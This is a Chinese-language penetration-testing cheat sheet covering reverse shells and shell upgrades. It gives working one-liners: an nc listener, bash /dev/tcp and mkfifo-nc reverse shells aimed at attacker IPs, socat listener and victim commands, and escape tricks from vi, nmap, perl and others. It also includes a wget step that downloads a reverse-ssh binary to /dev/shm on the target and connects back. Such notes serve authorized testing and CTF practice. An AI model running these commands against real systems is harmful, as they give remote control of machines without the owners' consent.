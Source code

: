 ## 交互shell
`rlwrap -cAr nc -lvnp 1234`
>rlwrap: 为命令行提供 readline 功能（历史记录、行编辑等）
>-c: 启用命令完成
>-A: 自动完成文件名
>-r: 记住输入历史

## 升级完全shell
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
>使用 Python 生成一个伪终端 (pty) 并启动 bash
>伪终端模拟了真实终端的特性，包括:
>行缓冲(Line buffering)
>信号处理(Signal handling)
>作业控制(Job control)
>这使Shell获得终端特性(TTY特性)

`export SHELL=bash`
>设置正确的Shell环境变量
>确保系统知道当前使用的是Bash
>影响某些应用程序的Shell调用行为

`export TERM=xterm-256color` 
>设置终端类型
>使Shell支持:
>高级终端功能
>颜色显示
>特殊按键响应

**ctrl+z**
>作用：挂起当前Shell进程
>发送SIGTSTP信号
>为后续终端设置做准备

`stty raw -echo;fg`
>配置终端原始模式
>raw模式：禁用输入处理，直接传递原始数据
>-echo：禁用回显(避免双重回显)
>fg：将挂起的进程带回前台

`reset`
>作用：重置终端设置
>清除可能的错误配置
>确保终端处于干净状态
>重新初始化终端驱动

## socat
#### Listener:
`socat file:`tty`,raw,echo=0 tcp-listen:4444`
#### Victim:
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`



## 反向shell
`bash -i >& /dev/tcp/$ip/$port 0>&1`
不支持/dev/tcp
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.218.148 4444 > /tmp/f`

## 生成shell
`python -c 'import pty; pty.spawn("/bin/sh")'`
`echo os.system('/bin/bash')`
`/bin/sh -i`
`script -qc /bin/bash /dev/null`
`perl -e 'exec "/bin/sh";'`
`perl: exec "/bin/sh";`
`ruby: exec "/bin/sh"`
`lua: os.execute('/bin/sh')`
`IRB: exec "/bin/sh"`
`vi: :!bash`
`vi: :set shell=/bin/bash:shell`
`nmap: !sh`


## 反向ssh
#### 在目标机上使用
`wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh`
`/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2`